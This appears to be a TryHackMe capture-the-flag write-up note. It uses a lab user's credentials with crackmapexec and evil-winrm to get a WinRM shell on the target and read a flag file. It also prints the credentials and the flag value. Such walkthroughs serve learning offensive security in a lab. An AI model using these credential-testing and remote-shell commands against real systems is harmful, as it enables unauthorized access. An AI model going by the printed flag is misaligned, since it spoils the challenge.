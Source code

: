 You have a valid User with credentials.

User: `buse`
Password: `uzunLM+3131`

## Crackmapexec

#Attacking_Machine 
Crackmapexec (CME)** is an excellent tool for enumerating and testing credentials across SMB, WinRM, and other Windows services. Here's how you can use it in your situation.


```
crackmapexec winrm 10.10.75.173 -u buse -p uzunLM+3131
```

![[Getting a shell-20250430115615528.webp]]

The results are: You can run *winrm* with the given credentials.

## evil-winrm

#Attacking_Machine 
Connect to the machine using 
```
evil-winrm -i windcorp.thm0 -u  Buse -p uzunLM+3131 
```

![[Getting a shell-20250430120000134.webp]]

#Winrm_Shell
Go to `C:\Users\buse\desktop`.

```
cd C:\Users\buse\desktop

cat "Flag 2.txt"
```



> [!Success] Flag 2
> THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}

**Next step:** [[EXPLOITATION/Enumeration|Enumeration]]